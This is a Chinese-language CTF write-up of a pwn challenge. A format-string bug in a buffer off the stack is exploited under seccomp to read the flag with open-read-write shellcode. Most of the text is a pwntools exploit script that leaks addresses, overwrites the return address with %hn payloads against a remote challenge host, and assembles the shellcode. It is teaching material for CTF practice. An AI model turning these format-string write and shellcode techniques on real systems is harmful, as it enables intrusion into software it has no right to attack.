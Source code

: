 主函数逻辑

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-40-1024x319.png" alt="img" style="zoom:67%;" />

say()：

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-41-1024x533.png" alt="img" style="zoom:67%;" />

seccomp规则：

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-42-1024x336.png" alt="img" style="zoom: 50%;" />

所以这题该怎么打呢。。。原来是非栈上格式化字符串，具体知识点就不介绍了，非栈上格式化字符串还是很好理解的，就是没法任意地址写和任意地址读。

这题需要做的是orw，但是buf又没执行权限，但是我们看到程序里有：

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-43.png" alt="img" style="zoom:67%;" />

但是这题开了pie，因此做题步骤就很清晰了：

先搭链子==>泄露main地址==>把ret_addr改为what_addr==>把下一个字节改为shellcode的地址，最后直接传入stop + shellcode达成攻击，exp如下：

```
from pwn import *
#io = process('./fmt2')
io = remote('47.97.58.52',43000)
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.sendafter(b'Say something:',b'%11$p')
io.recvuntil(b'Shanghai!\n0x')
addr = int(io.recvuntil(b'Shanghai!\n',drop=True).decode(),16)
ret_a = addr - 0xe08 + 0xd08
print(hex(ret_a))
io.sendafter(b'Say something:',b'%7$p')
io.recvuntil(b'Shanghai!\n0x')
addr = int(io.recv(12).decode(),16)
what = addr - 0x50 -0x151 +  0xA3
print(hex(what))
payload1 = b'%' + str(ret_a & 0xffff).encode() + b'c%11$hn' + b'\x00'
#gdb.attach(io)
#pause()
io.sendafter(b'Say something:',payload1)
#0x27 = 39
payload0 = b'%' + str(what & 0xffff).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload0)

payload1 = b'%' + str(ret_a+8 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload1)
payload2 = b'%' + str(0x4010).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload2)
payload3 = b'%' + str(ret_a+10 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload3)
payload4 = b'%' + str(0x1451).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload4)
payload5 = b'%' + str(ret_a+12 & 0xffff).encode() + b'c%11$hn' + b'\x00'
io.sendafter(b'Say something:',payload5)
payload6 = b'%' + str(0x0001).encode() + b'c%39$hn' + b'\x00'
io.sendafter(b'Say something:',payload6)

get_shell = b'stop\x00'
get_shell = get_shell.ljust(16,b'\x00')
addr = 0x114514170
payload7 = shellcraft.amd64.open("./flag")
payload7 += shellcraft.amd64.read(3,addr,0x30)
payload7 += shellcraft.amd64.write(1,addr,0x30)
payload7 = asm(payload7)
get_shell = get_shell + payload7
```